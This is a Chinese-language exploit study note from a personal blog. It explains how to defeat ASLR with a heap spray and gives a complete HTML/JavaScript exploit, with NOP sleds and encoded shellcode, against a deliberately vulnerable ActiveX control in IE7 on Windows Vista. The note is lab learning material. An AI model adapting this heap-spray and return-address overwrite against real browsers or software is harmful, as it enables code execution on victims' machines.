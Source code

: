 ```yaml
---
title: 漏洞学习笔记-019-利用HeapSpray攻击ASLR
description: 利用Heap Spray(堆喷射)技术来攻击ASLR并定位shellcode
slug: exploit-019
date: 2020-11-28 12:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-019/)

## 原理

通过申请大量的内存，占领内存中的0x0C0C0C0C的位置，并在这些内存中放置0x90和shellcode，最后控制程序转入0x0C0C0C0C执行。只要运气不要差到0x0C0C0C0C刚好位于shellcode中的某个位置，shellcode就可以成功执行

## 实验

### 准备工作

> 环境：系统：Windows Vista SP0，DEP状态：默认，浏览器：IE7

- 还是将之前用过的[Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx)作为攻击目标
- `VulnerAX.idl`中`CVulnerAXCtrl的类信息`的UUID：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 思想

- 我们利用Heap spray技术在内存中申请200个1MB的内存块来对抗ASLR的随机化处理
- 每个内存块中包含着0x90填充和shellcode
- Heap spray结束后我们会占领`0x0C0C0C0C`附近的内存，我们只要控制程序转入`0x0C0C0C0C`执行，在经过若干个0x90滑行之后就可以到达shellcode范围并执行
- test函数中存在一个典型的溢出漏洞，通过复制超长字符串可以覆盖函数返回地址
- 我们将函数返回地址覆盖为`0x0C0C0C0C`，在函数执行返回执行后就会转入我们申请的内存空间中

### 代码

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### 结果

- 成功攻击ASLR，如图

![pic1](https://s3.ax1x.com/2020/11/28/DyUSMR.png)  
![pic2](https://s3.ax1x.com/2020/11/28/DyUcl9.jpg)  
![pic3](https://s3.ax1x.com/2020/11/28/DyN3vR.png)
